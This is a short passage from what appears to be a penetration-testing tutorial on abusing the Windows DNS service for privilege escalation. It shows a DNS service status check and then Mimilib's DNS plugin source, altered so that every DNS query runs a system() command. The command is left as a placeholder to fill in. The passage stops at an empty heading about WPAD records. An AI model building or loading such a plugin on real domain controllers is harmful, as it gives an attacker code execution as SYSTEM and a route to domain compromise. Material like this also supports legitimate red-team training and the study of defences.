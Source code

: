 Checking DNS Service Status

```
sc query dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

## Using Mimilib.dll

/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}

## Creating a WPAD Record
